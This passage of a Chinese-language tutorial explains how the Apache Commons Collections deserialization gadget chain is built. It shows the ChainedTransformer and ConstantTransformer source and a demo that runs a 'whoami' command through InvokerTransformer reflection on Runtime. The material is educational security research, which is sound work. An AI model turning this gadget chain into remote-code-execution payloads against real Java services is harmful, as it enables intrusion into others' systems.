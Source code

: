 ```java
public class ChainedTransformer implements Transformer, Serializable {
    static final long serialVersionUID = 3514945074733160196L;
    private final Transformer[] iTransformers;

    public ChainedTransformer(Transformer[] transformers) {
        this.iTransformers = transformers;
    }
    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }

        return object;
    }
    public Transformer[] getTransformers() {
        return this.iTransformers;
    }
}
```

构造`InvokerTransform`时，需要显式的调用`transform`方法且其参数为一个runtime实例,这样的场景显然不会出现，利用`ChainedTransformer`则可以降低利用的难度，因为`object`会被更新，且作为参数传入`transform`方法,但是仍需要构造一个`transform`后会返回`runtime`实例的`transformer`类，这样子才能够触发`InvokerTransformer`的反射到`Runtime`。下面时没有构造链时的利用，可以发现还是需要手动输入`Runtime`实例，这个时候需要另一个`gadgets`即`ConstantTransformer`

```java
public class ChainedGadgets {

    public static void main(String[] args) {
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"whoami"})
        });
        Process process = (Process) chainedTransformer.transform(Runtime.getRuntime());
        Scanner scanner = new Scanner(process.getInputStream());
        String res = scanner.hasNext()?scanner.next():"";
        System.out.println(res);
    }
}
```

看一下`ConstantTransformer`主要方法

```java
public class ConstantTransformer implements Transformer, Serializable {
    static final long serialVersionUID = 6374440726369055124L;
    public static final Transformer NULL_INSTANCE = new ConstantTransformer((Object)null);
    private final Object iConstant;

    public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return this.iConstant;
    }
}
```
